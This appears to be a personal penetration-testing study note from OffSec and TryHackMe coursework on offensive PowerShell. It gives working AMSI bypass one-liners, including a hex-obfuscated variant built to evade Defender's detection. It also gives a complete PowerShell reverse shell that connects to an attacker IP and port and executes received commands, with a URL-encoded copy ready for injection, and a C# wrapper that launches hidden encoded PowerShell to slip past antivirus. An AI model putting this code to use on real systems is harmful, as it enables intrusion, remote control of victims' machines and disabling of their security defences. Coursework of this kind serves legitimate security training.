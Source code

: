 # Exploiting PowerShell

**author**:: Nathan Acks  
**date**:: 2022-09-02

## Disable AMSI

Windows Defender uses a process called AMSI that triggers when a script is run in PowerShell (this includes invocations of `IEX` for in-memory scripts!).

One bypass for this:

```powershell
[REF].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

Note that AMSI uses a regular expression to trap all PowerShell commands that contain AMSI-function related strings, however. This can be bypassed by breaking up the above script into separate variables, or by doing fancy string encoding-and-reassembly tricks.

```powershell
[REF].Assembly.GetType('System.Management.Automation.'+$("41 6D 73 69 55 74 69 6C 73".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result=$result+$_};$result)).GetField($("61 6D 73 69 49 6E 69 74 46 61 69 6C 65 64".Split(" ")|forEach{[char]([convert]::toint16($_,16))}|forEach{$result2=$result2+$_};$result2),'NonPublic,Static').SetValue($null,$true)
```

Be aware that AMSI bypasses are *per session*, not global!

* [2022-08-24 - OffSec Live: PEN-200 & AWS Deep Dive](../log/2022-08-24-offsec-live-pen-200-and-aws-deep-dive.md)
* [Bypass AMSI by manual modification](https://s3cur3th1ssh1t.github.io/Bypass_AMSI_by_manual_modification/)
* [2022-08-26 - OffSec Live: PEN-200](../log/2022-08-26-offsec-live-pen-200.md)

## Pure PowerShell Reverse Shell

```powershell
$client = New-Object System.Net.Sockets.TCPClient('<IP>', <PORT>);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535 | %{0};
while (( $i = $stream.Read($bytes, 0, $bytes.Length) ) -ne 0) {
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes, 0, $i);
	$sendback = ( iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ( [text.encoding]::ASCII ).GetBytes($sendback2);
	$stream.Write($sendbyte, 0, $sendbyte.Length);
	$stream.Flush()
}
$client.Close()
```

URL-encoded version (uses `powershell -c "$CODE"`):

```
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```

Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

One annoying thing about this reverse shell… There's no initial prompt, so you have no idea whether you've connected or not. but as soon as you enter a command (`whoami`, etc.), a prompt will appear after the output. On the plus side, however, this reverse shell will persist even after the PHP script times out!

* [TryHackMe: Complete Beginner](tryhackme-complete-beginner.md)

### Relevant Tweet

[Powershell reverse shell back to netcat listener. netcat is not needed on the target box for this technique to work. (rootsecdev) (Twitter)](https://twitter.com/rootsecdev/status/1487612184498774019)

## Compile C# Programs to Bypass Anti Virus

C# can be used to bypass AV (at least as of September 2022) - just create a C# wrapper that fires up a PowerShell one-liner. (Sometimes this will need to be modified slightly to bypass AV, but generally you don't have to tweak this code much - C# analysis doesn't seem to be particularly robust for most AV products.)

```c#
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
```

This can be compiled using PowerShell - perhaps even on the target itself. What's the advantage to doing this? You can use Invoke-Mimikatz to run this binary remotely to quickly obtain a remote shell with the permissions of the user you're impersonating.

```powershell
$code = @"
using System;
namespace Game
{
	public class Program
	{
		public static void Main() {
			System.Diagnostics.Process P = new System.Diagnostics.Process();
			System.Diagnostics.ProcessStartInfo SI = new System.Diagnostics.ProcessStartInfo();
			SI.WindowStyle = System.Diagnostics.ProcessWindowStyle.Hidden;
			SI.FileName = "powershell.exe";
			SI.Arguments = "-enc $BASE64_ENCODED_SCRIPT_TO_RUN";
			P.StartInfo = SI;
			P.Start();
		}
	}
}
"@
Add-Type -outputtype consoleapplication -outputassembly $BINARY_NAME -TypeDefinition $code -Language CSharp
```

* [2022-09-02 - OffSec Live: PEN-200](../log/2022-09-02-offsec-live-pen-200.md)
* [Using Mimikatz](mimikatz.md)
